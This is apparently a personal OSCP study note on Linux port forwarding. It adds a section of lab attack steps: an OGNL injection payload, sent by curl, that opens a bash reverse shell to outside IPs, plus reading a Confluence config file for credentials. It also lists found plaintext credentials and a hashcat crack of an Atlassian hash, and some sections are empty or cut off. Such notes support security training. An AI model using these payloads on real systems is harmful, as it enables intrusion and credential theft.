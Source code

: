```yaml
---
aliases:
  - Port Forwarding
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - port_forwarding
  - linux
  - forwarding
author: Mehdi N Tehrani
creat_date: 2024-01-03
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# rinetd
#rinetd

# FIFO
#fifo #mkfifo 
```

```

# iptables
#iptables 
If we have root privileges, we could use iptables to create port forwards. The specific iptables port forwarding setup for a given host will likely depend on the configuration already in place. To be able to forward packets in 

Enable forwarding on the interface:
```
echo '1' > /proc/sys/net/ipv4/conf/[interface]/forwarding
```
# socat
#socat
http://www.dest-unreach.org/socat/doc/socat.html

```sh
socat -ddd TCP-LISTEN:<listening_port>,fork TCP:<dst_ip>:<dst_port>
```

#confluence #config
```sh
cat /var/atlassian/application-data/confluence/confluence.cfg.xml
```

Found credentials: `postgres:D@t4basePassw0rd!`

# Unrelated to Port Forwarding
## Java

#java #process_builder #ognl #reverse_shell #revshell 
[OGNL](https://en.wikipedia.org/wiki/OGNL) (Object-Graph Notation Language) 
[Java Process Builder](https://docs.oracle.com/javase/7/docs/api/java/lang/ProcessBuilder.html)
```http
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```

```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.216/7777%200%3E%261%27%29.start%28%29%22%29%7D/
```


## postgres
#postgres #postgresql 
https://www.postgresqltutorial.com/postgresql-administration/postgresql-show-tables/

### Connect
```sh
psql -h <host> -U <user> -p <port>
```
### Commands
```psql
\l              # list databases

\c <db_name>    # connect to a db

\dt              # list tables
\dt+             # list tables; more info 
```


## hashcat
#hashcat #wordlist #fastrack #atlassian #pbkdf2 #pkcs5s2
```sh
hashid '{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv' 
Analyzing '{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv'
[+] PBKDF2(Atlassian) 

hashcat --help | rg -Pie 'atlassian'
  12001 | Atlassian (PBKDF2-HMAC-SHA1) 

hashcat -m 12001 '{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv' /usr/share/wordlists/fasttrack.txt
```

```
database_admin:sqlpass123
```